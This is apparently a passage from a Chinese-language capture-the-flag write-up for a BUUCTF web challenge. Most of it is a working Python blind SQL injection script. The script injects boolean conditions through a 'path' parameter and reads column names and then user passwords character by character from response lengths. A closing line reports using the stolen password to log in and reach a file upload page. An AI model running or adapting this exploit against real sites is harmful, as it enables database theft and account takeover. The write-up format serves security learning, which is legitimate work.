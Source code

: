 ```python
    for i in range(1,30):
        for c in chars:

            params = {
                'id': '\\0',
                'path': " or (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name= 0x7573657273 and table_schema=database()),{},1))={}) #".format(i, ord(c))
            }
            # print(params['path'])
            # print(base_url)
            # time.sleep(0.5)
            res = session.get(base_url, params=params).text
            print(str(i)+' '+str(len(res))+' '+c)
            if len(res) == 117007 :
                column_name += c
                print(column_name)
                break

def get_data():
    data = ""
    for i in range(1,30):
        for c in chars:

            params = {
                'id': '\\0',
                'path': " or (ascii(substr((select group_concat(password) from users),{},1))={}) #".format(i, ord(c))
            }
            # print(params['path'])
            # print(base_url)
            # time.sleep(0.5)
            res = session.get(base_url, params=params).text
            print(str(i)+' '+str(len(res))+' '+c)
            if len(res) == 117007 :
                data += c
                print(data)
                break

#get_database_name(10)
#get_table_name()
#get_column_name()
get_data()
```



使用上边爆出来的密码成功登录,来到一个文件上传页面

![image-20221027203616583](../images/buuctf-web3/image-20221027203616583.png)
